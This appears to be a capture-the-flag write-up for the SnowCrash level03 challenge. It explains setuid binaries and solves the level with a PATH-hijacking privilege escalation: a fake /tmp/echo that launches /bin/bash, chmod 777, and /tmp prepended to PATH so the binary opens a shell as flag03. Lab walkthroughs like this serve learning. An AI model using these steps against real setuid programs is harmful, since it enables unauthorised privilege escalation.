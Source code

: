 # Level03

## Research
------------

```bash
level03@SnowCrash:~$ ls -l
-rwsr-sr-x  1  flag03  level03  8627  Mar  5  2016  level03

level03@SnowCrash:~$ whoami
level03

level03@SnowCrash:~$ groups
level03 users
```

`The s in rws stands for setuid meaning set user ID. When applied to an executable file, it sets the effective user ID from that of the real user (the user actually running the program) to that of the program's owner. Most often this is given to a few programs owned by the superuser. When an ordinary user runs a program that is "setuid root" , the program runs with the effective privileges of the superuser. This allows the program to access files and directories that an ordinary user would normally be prohibited from accessing. Clearly, because this raises security concerns, the number of setuid programs must be held to an absolute minimum.` <br/>
https://askubuntu.com/questions/857066/meaning-of-the-access-permissions-rws-and-root-root-of-usr-bin-sudo

So my user ID will go from level03 to flag03 (program's owner) during the execution of level03.

- How can I make this program run getflag ?

```bash
level03@SnowCrash:~$ ./level03
Exploit me

level03@SnowCrash:~$ strings level03
[...]
/usr/bin/env echo Exploit me
[...]
```

We can see the program calls the echo function.</br>
The ENV utility will invoke the first sh or bash executable found in the user's $PATH.<br/>
`The PATH environment variable is a colon-delimited list of directories that your shell searches through when you enter a command.`<br/>
https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code <br/>
https://stackoverflow.com/questions/43793040/how-does-usr-bin-env-work-in-a-linux-shebang-line


## Solution
-----------

If we make a fake echo function, then change the path so that it finds our echo first instead of the real one, tt will run it as flag03.

- Steps:

  - Make a fake echo function
      ```bash
      echo "/bin/bash" > /tmp/echo
      ```
      This will create a fake echo that will execute /bin/bash, that is a new connection to our shell with the current user's permission.
      
  - Make this script executabled by flag03
      ``` bash
      chmod 777 /tmp/echo
      ```
      
  - Change path
      ```bash
      level03@SnowCrash:~$ env
      [...]
      PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
      [...]
      ```
      ``` bash
      export PATH=/tmp:$PATH
      ```
      ```bash
      level03@SnowCrash:~$ env
      [...]
      PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
      [...]
      ```
      We added tmp directory at the start of the path.


```bash
level03@SnowCrash:~$ ./level03
```

You are now `flag03` as a user, because you "opened" a new shell with the rights of flag03.

You can now launch `getflag` with flag03 rights.

https://www.cgsecurity.org/Articles/SecProg/Art1/index-fr.html

